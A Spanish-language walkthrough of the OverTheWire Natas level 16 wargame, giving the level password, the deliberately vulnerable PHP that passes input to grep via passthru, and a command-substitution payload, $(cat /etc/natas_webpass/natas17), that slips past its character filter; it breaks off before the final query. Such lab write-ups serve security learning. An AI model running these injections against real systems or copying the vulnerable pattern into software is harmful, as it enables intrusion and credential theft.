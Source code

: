 #Natas Level 15 → Level 16

Username: natas16

URL:      http://natas16.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas16.natas.labs.overthewire.org** 
- **Usuario    : natas16**
- **Contraseña : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh**

La contraseña la hemos sacado del nivel anterior.

Entramos en la página web y nos muestra un mensaje parecido a la prueba anterior indicando que se han filtrado incluso más caracteres que en la prueba anterior.

```html
For security reasons, we now filter even more on certain characters

Find words containing: 
Search

Output:
```

Encontramos un campo de texto donde podemos buscar palabras dentro de un fichero, al igual que hicimos en alguna prueba anterior.

Antes de meternos en harina, vamos a mirar el código fuente y ver que han podido cambiar.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) 
{
    $key = $_REQUEST["needle"];
}

if($key != "") 
{
    if(preg_match('/[;|&`\'"]/',$key)) 
    {
        print "Input contains an illegal character!";
    } else 
    {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Vamos a comparar con la prueba nº 10 de Natas en la que también filtraban los caracteres:

Natas10
```php
if(preg_match('/[;|&]/',$key))
```
Natas16
```php
if(preg_match('/[;|&`\'"]/',$key)) 
```

Al igual que en la prueba Natas10 intentamos poner la mascara Wildcard(.*) y vemos que nos devuelve el contenido de todo el fichero.

Intentamos hacer el mismo truco poniendo el siguiente comando, pero no nos funciona.

```bash
.* /etc/natas_webpass/natas17
```

Tenemos que intentar otra cosa. Vamos a analizar que caracteres filtra y podríamos sacar provecho de lo que no filtra.

Filtra los valores ```bash (;, |, &, `, ', ")``` pero no los valores **$** y **()** entre otros. 

Investigando un poco por internet nos encontramos un comando o truco en bash que nos puede servir de ayuda.

El siguiente comando
```bash 
`cat /etc/natas_webpass/natas17`
```
es lo mismo que 

```bash 
$(cat /etc/natas_webpass/natas17)
```

Nos fijamos que no utilizamos ningún caracter prohibido de la lista que han bloqueado y podemos obtener los mismos resultados. 

Bien, hemos pasado el primer filtro y ahora tenemos que montar la consulta para que nos muestre la contraseña del siguiente nivel.





